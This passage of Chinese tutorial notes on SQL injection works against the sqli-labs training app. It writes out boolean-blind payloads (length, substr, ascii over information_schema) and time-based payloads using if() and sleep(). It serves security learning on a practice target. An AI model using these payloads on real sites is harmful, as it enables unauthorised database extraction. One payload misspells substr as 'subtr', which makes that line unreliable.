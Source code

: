 用`substr`和`length` 函数来实现Sql注入（PS: 费时费力，用脚本）

当注入有数据回但数据无法显示出来时使用，通过布尔值来判断数据

```python
# 判断 数据库名长度是否为 8，为 8 时回显，不为 8 不回显
/Less-5/?id=1' and length(database())=8 and '1
# 判断数据库名 第一个 字 是否为 s;以此类推，判断到第八位即可....
/Less-5/?id=1' and substr(database(),1,1)='s' and '1
/Less-5/?id=1' and substr(database(),1,8)='security' --+
```

写脚本时一般通过`ASCII`表来搭配使用

```python
# 爆表信息
## 爆表数量，表数量为4个
/Less-5/?id=1' and (select count(*) from information_schema.tables where table_schema = 'security') = 4 --+

## 爆出所有表名的总长度，为29位
/Less-5/?id=1' and length((select group_concat(table_name) from information_schema.tables where table_schema = 'security')) = 29 --+

## 逐个破解表名字，第一个表名的第一个字母是 e，对应 ascii 值是101
/Less-5/?id=1' and ascii(subtr((select group_concat(table_name) from information_schema.tables where table_schema = 'security'),1,1))=101 --+
```

### 延时注入

通过控制语句正确然后使用`sleep`函数制造时间延迟，来判断是否报错

在SQL注入时页面不管正确不正确都不会回显数据时可以使用

**if(expr1,expr2,expr3)含义是如果expr1是True,则返回expr2,否则返回expr3**

```python
# 判断页面闭合，闭合成功页面会延迟 3 秒再加载
/Less-9/?id=1' and if(1=2,1,sleep(3))--+
# 判断数据表名长度， 正确页面会延迟 3 秒再加载
/Less-9/?id=1' and if(length(database())=8,sleep(3),1)--+
```

剩下和布尔盲注差不多，配合`=` `<` `>` 使用

### 增删改查语句注入

- **SELECT语句**：
    - 用于从数据库中查询数据。
    - 示例：
        
        ```sql
        SELECT * FROM users WHERE username = 'admin';
        ```
        
    - 注入示例：在用户名字段输入上面的内容，将会生成以下SQL语句：这会返回所有用户，因为`'1'='1'`总是为真。
        